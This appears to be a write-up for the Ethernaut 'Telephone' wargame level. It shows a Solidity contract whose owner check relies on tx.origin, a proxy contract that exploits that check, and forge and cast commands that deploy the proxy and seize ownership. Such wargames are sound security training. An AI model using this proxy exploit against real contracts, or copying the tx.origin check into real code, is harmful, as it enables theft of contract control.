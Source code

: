 ## Telephone Level Outline

**Difficulty : 1/10**

Claim ownership of the contract below to complete this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768)

## Solution
we need to send a transaction where `tx.origin != msg.sender`. To do this, we use a proxy contract to call the "changeOwner()" as tx.origin will equal our EOA and msg.sender will equal our deployed contract's address.

### Walkthrough

1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Phone {
    Telephone telephone;

    constructor(address _telephoneAddr) {
       telephone = Telephone(_telephoneAddr);
    } 

    function changeOwner() public {
        telephone.changeOwner(msg.sender);
    }
}

interface Telephone {
    function changeOwner(address _owner) external;
}
```

2. deploy our new contract
```console
forge create src/Contract.sol:Phone --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

3. call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "changeOwner()" --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading


